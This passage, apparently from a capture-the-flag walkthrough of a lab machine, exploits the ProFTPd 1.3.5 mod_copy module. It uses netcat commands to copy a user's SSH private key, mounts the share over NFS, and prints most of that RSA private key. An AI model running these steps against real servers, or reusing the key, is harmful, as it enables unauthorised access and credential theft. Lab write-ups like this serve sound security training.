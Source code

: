 Let us look for verunablities for this version:```searchsploit proftpd 1.3.5```

??? output "nmap output"
    ``` sh
    -------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                    |  Path
    -------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                         | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                               | linux/remote/36803.py
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                           | linux/remote/49908.py
    ProFTPd 1.3.5 - File Copy                                                                         | linux/remote/36742.txt
    -------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results
    ```

Let's exploit ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html) and copy Kenobi's private key using SITE CPFR and SITE CPTO commands:

``` sh
nc 10.10.153.226 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.153.226]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Lets mount the /var/tmp directory to our machine

``` sh
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.153.226:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cat id_rsa
```

??? output "id_rsa content"
    ``` sh
    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
    qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
    U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
    dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
    y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
    otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
    ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
    dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
    bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
    tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
    YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
    bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
    t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
    rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
    dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
    mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
    SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
    dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
    u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph